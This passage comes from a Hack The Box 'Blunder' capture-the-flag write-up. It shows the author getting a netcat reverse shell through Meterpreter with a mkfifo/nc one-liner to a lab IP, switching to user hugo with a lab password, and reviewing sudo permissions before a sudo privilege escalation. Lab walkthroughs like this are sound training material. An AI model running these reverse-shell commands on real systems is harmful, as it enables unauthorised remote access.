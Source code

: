 {% include image.html path="documentation/blundermeta.webp"
path-detail="documentation/blundermeta.webp"
alt="HTB Blunder" %}

I tried `nc 10.10.14.10 9001 -e /bin/bash` it didn’t work, So i used this nc revershell command to get a revshell.

{% highlight bash %}
meterpreter > execute -f 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f' -H 
Process 4585 created.
meterpreter > 
{% endhighlight %} 

Netcat listner

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Blunder_Rooted]
└──╼ $rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.191] 49942
/bin/sh: 0: cant access tty; job control turned off
$ whoami
www-data
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/$ su hugo
su hugo
Password: Password120

hugo@blunder:/$ cd
cd
hugo@blunder:~$ wc -c user.txt
wc -c user.txt
33 user.txt
{% endhighlight %} 

### Rooting the box

As we have user’s `Hugo` password, check if we have any sudo perms.

{% highlight bash %}
hugo@blunder:/tmp$ sudo -l
sudo -l
Password: Password120
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
{% endhighlight %} 

It reminded me of a `sudo` vulnerability, as I did something similar in a THM room (It could have been easily discovered using any enum script like linpeas too..), so checking the sudo version.
